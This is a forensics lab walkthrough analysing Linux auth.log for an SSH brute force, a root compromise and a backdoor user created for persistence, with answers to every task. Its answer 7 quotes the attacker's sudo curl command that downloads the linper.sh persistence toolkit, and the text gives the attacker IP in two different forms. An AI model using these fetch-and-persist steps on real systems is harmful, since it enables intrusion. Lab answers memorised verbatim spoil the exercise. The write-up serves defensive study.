






# Brutus

--------------------------------------------------------------

### Title:- In this sherlock we will familiarize with Unix auth.log and wtmp logs.
### Category:- DFIR
### Description:- We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

-------------------------------------------------------------

### 1). Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

For this task i used command to cut the fields

### cat auth.log | cut -d' ' -f9,10

As we can see many invalid requests coming from ip address 65.21.161.68.

### Answer:- 65.2.161.68

### 2). The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

I used same command of task 1 just change the fields

We can see after lots of attempt password accepted for user root.

### Answer:- root

### 3). SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

We can see from above screenshot that session number 37 was assigned to the user root after account was being compromised.

### Answer:- 37

### 4). The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

We can see that attacker installed linux persistence toolkit linper.sh and also added new user "cyberjunkie" to maintaine persistence.

### Answer:- cyberjunkie

### 5). What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

I searched in internet to find persistence techniques releated account creation

we can see that attacker used T1136.001 comes under local account creation.

### Answer:- T1136.001

### 6). What time did the attacker's first SSH session end according to auth.log?

We can see at Mar 6 06:37:24 ssh session ended 

### Answer:- 2024-03-06 06:37:24

### 7).The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

As we saw early that attacker used linper.sh to utilize their higher privileges.

### Answer:- /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

---------------------------------------------------------------------------------------------------------------

## What I Learned?

- Linux Log Analysis
- MITRE ATT&CK Mapping
- Privilege Escalation and Persistence Detection

---------------------------------------------------------------------------------------------------------------

## Incident Summary

In this investigation i found in auth.log that attacker was trying to bruteforce SSH service using ip address 65.2.161.68 and after some attempts successfuly gained access of user root and after attacker logged in manually to the server and established a terminal session to carry out their objectives
then attacker added a new user "cyberjunkie" as part of their persistence strategy on the server and gave this new user account higher privileges by following MITRE ATT&CK technique T1136.001(local account creation) and logged into their backdoor account and utilized their higher privileges using "linper.sh"

----------------------------------------------------------------------------------------------------------------

## IOC (Indicator of Compromise)

|    Field                      |    Value      |
|-------------------------------|---------------|
|   IP Address                  |   65.2.161.68 |
|   Username                    |   root        |
|  Session Number               |   37          |
|  New User Account             |   cyberjunkie |
|  Privilege Escalation Script  |   linper.sh   |

----------------------------------------------------------------------------------------------------------------

## MITRE ATT&CK Mapping

|    Technique            |      Id    
|-------------------------|------------
|  Local Account Creation |  T1136.001
|  SSH Bruteforce         |  T1110.001
